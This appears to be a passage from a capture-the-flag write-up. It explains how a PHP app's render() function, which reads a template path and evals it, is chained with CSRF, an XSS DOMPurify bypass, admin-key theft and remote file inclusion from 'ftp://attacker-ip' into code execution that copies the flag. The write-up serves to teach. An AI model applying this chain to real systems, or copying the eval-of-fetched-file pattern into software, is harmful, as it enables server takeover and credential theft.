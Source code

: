 ### Rendering the Remote Template => RCE

```php
function render($filePath) {
    if (!file_exists($filePath)) {
        return "Error: File not found.";
    }
    $phpCode = file_get_contents($filePath);             // (F)
    ob_start();
    eval("?>" . $phpCode);                               // (G)
    return ob_get_clean();
}
...
$app->get('/dashboard', function (...) {
    $html = render($GLOBALS['settings']['templatesPath'] . '/dashboard.php');  // (H)
    ...
});
```

##### Where It Goes Wrong

 - (F) `file_get_contents($filePath)` can read from a remote source if `allow_url_fopen` is on. So if `$filePath` is `ftp://attacker-ip/dashboard.php`, it will download remote PHP code.
 - (G) `eval("?>" . $phpCode)` executes the downloaded code on the server.
 - (H) The app calls `render($GLOBALS['settings']['templatesPath'] . '/dashboard.php')`. Because we changed template_path, the server fetches `ftp://attacker:2121/dashboard.php` (or something similar) and runs it.

`Impact`: Full remote code execution. An attacker can supply a malicious `index.php` or `dashboard.php` that runs `system()` commands, such as copying `/flag*` to a publicly accessible directory.

### Putting It All Together

CSRF on `/api/updateStatus` via "text/plain"
    The attacker triggers the internal "bot" to load an attacker page that auto-submits a malicious form.
    That form sets the user’s `status` to a malicious JavaScript snippet (XSS), due to improper JSON necoding implementation.

XSS -> Steal Admin Key
    When the admin views the user’s status (or visits a page that shows "status"), the embedded JS runs using a DOMPurify bypass.
    The script fetches the admin’s API key from the DOM and uses it to call `/api/admin/appSettings`.

RFI Setup -> `template_path`
    Using the admin’s key, the attacker sets template_path to an FTP address under their control.
    The server’s `render()` function will then fetch `.php` files remotely.

Remote Code Execution
    The attacker’s malicious `.php` is fetched and executed by `eval()`.
    That `.php` does `system('cp /flag* /app/public/flag.txt');` (for example).
    The attacker then simply requests `http://challenge/flag.txt` to read the captured flag.
